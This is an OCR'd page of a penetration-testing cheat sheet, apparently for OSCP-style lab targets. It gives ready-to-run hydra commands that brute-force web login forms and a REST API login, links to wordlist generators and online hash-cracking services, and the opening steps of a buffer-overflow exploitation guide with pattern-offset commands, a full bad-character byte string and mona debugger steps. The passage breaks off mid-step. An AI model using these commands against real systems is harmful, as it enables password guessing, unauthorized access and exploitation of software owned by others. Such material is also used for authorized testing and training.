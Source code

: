 ```
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64

# Dictionary creation
https://github.com/LandGrey/pydictor
https://github.com/Mebus/cupp
git clone https://github.com/sc0tfree/mentalist.git
```

Online crackers

```
https://hashkiller.co.uk/Cracker
https://www.cmd5.org/
https://www.onlinehashcrack.com/
https://gpuhash.me/
https://crackstation.net/
https://crack.sh/
https://hash.help/
https://passwordrecovery.io/
http://cracker.offensive-security.com/
```

# **Vulnerability analysis**

## BOF

```
# BASIC GUIDE
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E10.11.1.111 offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
with script _badchars.py and 
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
	5.1 AWESOME WAY TO CHECK BADCHARS (https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/):
```